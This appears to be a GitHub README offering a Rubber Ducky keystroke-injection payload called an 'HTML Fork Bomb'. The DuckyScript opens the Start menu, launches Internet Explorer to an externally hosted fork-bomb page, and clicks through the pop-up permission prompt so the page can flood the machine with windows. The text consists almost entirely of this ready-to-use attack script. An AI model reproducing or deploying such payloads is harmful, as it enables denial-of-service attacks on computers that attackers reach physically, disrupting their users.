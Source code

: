 # Rubber-Ducky_HTML_Fork-Bomb
a quickly Rubber Ducky HTML Fork Bomb Attack


![Alt text](https://raw.githubusercontent.com/JonnyBanana/HTML-Fork-Bomb.github.io/master/img/61l9sMFJ7pL._SX425_.jpg)

<h3> V1 </h3>

REM HTML Fork Bomb by Jonny Banana </BR>
DELAY 2000 </BR>
CONTROL ESCAPE </BR>
DELAY 200 </BR>
STRING C:\Program Files\Internet Explorer\iexplore.exe https://jonnybanana.github.io/HTML-Fork-Bomb.github.io/ </BR>
DELAY 200 </BR>
ENTER </BR>
REM set a long delay  to give time to this disgusting browser </BR>
DELAY 1000 </BR>
REM it's time to enable Pop-Up </BR>
TAB </BR>
DELAY 200 </BR>
ENTER </BR>
